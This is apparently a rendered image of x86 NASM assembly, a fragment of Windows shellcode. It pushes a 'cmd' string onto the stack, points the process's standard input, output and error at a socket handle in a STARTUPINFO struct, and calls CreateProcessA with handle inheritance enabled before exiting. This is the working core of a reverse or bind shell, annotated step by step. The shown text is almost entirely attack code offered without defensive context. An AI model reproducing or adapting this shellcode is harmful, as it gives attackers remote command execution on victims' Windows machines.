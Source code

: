 ```nasm
push edx
push eax
xchg eax, edi
call dword [esi + 0x8]

; CreateProcessA shenanigans
push 0x61646d63                      ; "cmda"
sub dword [esp + 0x3], 0x61          ; "cmd"
mov edx, esp                         ; edx now pointer to our 'cmd' string

; set up the STARTUPINFO struct
push edi
push edi
push edi                             ; we just put our SOCKET_FD into the arg params for HANDLE hStdInput; HANDLE hStdOutput; and HANDLE hStdError;
xor ebx, ebx
xor ecx, ecx
add cl, 0x12                         
; we're going to throw 0x00000000 onto the stack 18 times, this will fill up both the STARTUPINFO and PROCESS_INFORMATION structs
; then we will retroactively fill them up with the arguments we need by using effective addressing relative to ESP like mov word [esp +]

looper: 
push ebx
loop looper

mov word [esp + 0x3c], 0x0101        ; set dwFlags arg in STARTUPINFO
mov byte [esp + 0x10], 0x44          ; cb member of the struct set to 68 decimal, size of struct
lea eax, [esp + 0x10]                ; eax now a pointer to STARTUPINFO

; Actually Calling CreateProcessA now
push esp                             ; pointer to PROCESS_INFORMATION
push eax                             ; pointer to STARTUPINFO
push ebx                             ; all NULLs
push ebx
push ebx
inc ebx                              ; bInheritHandles == True
push ebx
dec ebx
push ebx
push ebx
push edx                             ; pointer to 'cmd' 
push ebx

call dword [esi + 0xc]

; call ExitProcess
push ebx                             ; still null
call dword [esi + 0x10]
```
